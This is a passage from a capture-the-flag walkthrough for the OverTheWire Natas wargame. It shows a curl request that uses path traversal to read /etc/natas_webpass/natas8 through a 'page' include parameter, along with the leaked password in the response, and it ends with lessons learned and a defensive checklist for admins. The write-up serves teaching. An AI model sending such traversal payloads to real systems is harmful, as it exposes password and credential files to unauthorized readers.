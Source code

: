 Observation: there is a `page` parameter used in links 
and a comment explicitly pointing at `/etc/natas_webpass/natas8`. 
That suggests the app includes files from `page`.

2) Try path traversal to include the target file directly

```bash
curl -i -u natas7:natas7password "http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8"
```

Server response (relevant part):

```html
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
natas8password
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```

### Lessons learned (concise)

- If user input controls include/require paths, attackers can traverse the filesystem and read sensitive files.  
- LFI often reveals configuration files, password files, source code, or tokens stored outside webroot.  
- Always validate and canonicalize requested paths, restrict includes to an allowlist, and never allow raw user input to drive filesystem includes.  
- Limit the web process privileges so sensitive files like `/etc/natas_webpass/*` aren’t readable by the web user.

### Quick defensive checklist for admins

- Canonicalize and resolve include paths; reject any input that contains traversal.  
- Use an allowlist of permitted page names (map short IDs to files, don't use raw filenames).  
- Run web services with minimal privileges; protect sensitive files with strict permissions.  
- Log suspicious include attempts and alert on repeated traversal patterns.

---




## Level 8 → Level 9

### Level goal  

Read the password for `natas9` by reversing 
the transformation the server performs on the submitted secret.  
What you should learn: 
how to reason about simple encoding pipelines (base64 → reverse → hex) 
and how to invert them on the command line.
